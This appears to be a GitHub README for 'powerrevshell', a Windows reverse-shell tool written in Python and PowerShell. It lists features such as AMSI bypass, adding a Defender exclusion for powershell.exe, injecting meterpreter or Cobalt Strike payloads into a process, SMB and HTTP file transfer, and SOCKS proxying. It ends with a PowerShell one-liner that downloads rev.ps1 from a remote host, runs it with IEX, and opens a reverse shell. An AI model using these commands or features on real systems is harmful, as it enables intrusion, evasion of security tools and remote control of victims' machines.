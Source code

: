 # Introduction

A small windows reverse shell project that i build during my university intership.\
It is written with Python and Powershell.\
33333333333333333333333333333333333333333 but also 7 (\~^-^)\~

# Installation

To simply install it:

1.  Clone this repo with the following code
    ```
    git clone https://github.com/Fedami/powerrevshell---rev.ps1
    ```
3.  Run the following code to install all the requirements
    ```
    pip install -r requirements.txt
    ```
3.  Run the following code to make the .py file executable or simply run it with python
    ```
    chmod +x powerrevshell.py or python3 powerrevshell.py
    ```
## Powerrevshell

![powerrevshell-start-short](https://user-images.githubusercontent.com/82824055/173030103-c57222f4-fc15-4766-bd19-64d1963d9df3.png)

# Optional argument
  -h, --help        &emsp;&emsp;&ensp;    show this help message and exit\
  -f folder &emsp;&emsp;&emsp;&emsp; smb folder for transfer funciontality\
  &emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;                      Enter folder name [Default: root]\
  -i local ip       &emsp;&emsp;&ensp;&nbsp;    Enter your local IP [Default: 192.168.0.114]\
  -p port           &emsp;&emsp;&emsp;&ensp;&nbsp;    listener port for reverse shell [Default: 9001]\
  -wp webport       &emsp;&nbsp;    listener port for http server [Default: 8000]\
  -sp smbport       &emsp;&ensp;     listener port for smb server [Default: 445]\
  -http             &emsp;&emsp;&emsp;&emsp;&ensp;&nbsp;    Start http web server [Default: 8000]\
  -smb              &emsp;&emsp;&emsp;&emsp;&ensp;&nbsp;    Start smb web server [Default: 445]\
  -k                &emsp;&emsp;&emsp;&emsp;&emsp;&emsp;    If ports are being used it will kill the process to force the exexcution.

# Functionality

Powerrevshell.py comes with several function accessible via the "menu" option:

![powerrevshell-menu](https://user-images.githubusercontent.com/82824055/171123395-27647e7f-9853-43e8-adae-8ea33e231bf3.png)

### get - put

The get and put functionality are build using TCPSocket to transfer files between the machines. To prevent data loss, on each message, are sent support string and md5sum to know if the actual bytes are sent correctly.

```
get <file.txt> / put <file.txt>
```

### smb-get

The smb-get functionality simply transfer a file using the Copy-Item cmdlet to the smbserver started using impacket-smbserver.\
If you didn't start the program with the -smb switch or started youreself (impacket-smbserver) the command will fail.

```
smb-get <file.txt>
```

### down-file

The down-file functionality simply download a file from the current machine to the target machine using HTTP server with python.
If you didn't start the program with the -http switch or started youreself (python -m http.server 8000) the command will fail.

```
down-file <file.txt>
```

### load

The down-file functionality simply load a powershell script from the current machine to the target machine using HTTP server with python.
If you didn't start the program with the -http switch or started youreself (python -m http.server 8000) the command will fail.

```
load <file.ps1>
```

### amsi-bypass

The amsi-bypass functionality will try to bypass AMSI on the current shell by using the Matt Graeber amsi bypass method obfuscated with two bytes array.

```
amsi-bypass
```

### exclude

The exlucde functionality will try to exclude powershell.exe from defender, admin permission are needed.

```
exclude
```

### payload

The payload functionality will try to create a new process and inject the shell payload that can be meterpreter or cobalt strike...\
The payload must be a cs file.

```
payload <payload.cs>
```

Work used for the socks functionality: [PowerProxy by get-get-get-get](https://github.com/get-get-get-get/PowerProxy).

### socks-start

Socks-start start a socks proxy.

```
socks-start <L-PORT> <P-PORT>
```
You can also omit L-PORT and P-Port, by default L-PORT is 8080 and P-PORT is 1080.

```
socks-start
```

### socks-stop

Socks-stop will stop any running socks on the target machine that was started before.

```
socks-stop
```

### socks

Socks will list if there is a running socks proxy.

```
socks
```

### close

Close will terminate the session by killing the powershell process, if the command exclude was used it will delete the exclusion policy. Also if it was started a socks proxy it will kill it before killing the session.

```
close
```

## Rev.ps1

Rev.ps1 is the powershell script to connect back to us.\
To start the reverse shell run the following code on the target machine.

```
IEX (New-Object System.Net.WebClient).DownloadString('http://<IP>:<PORT>/rev.ps1'); Send-Shell -i <IP> -p <ShellPort>
```
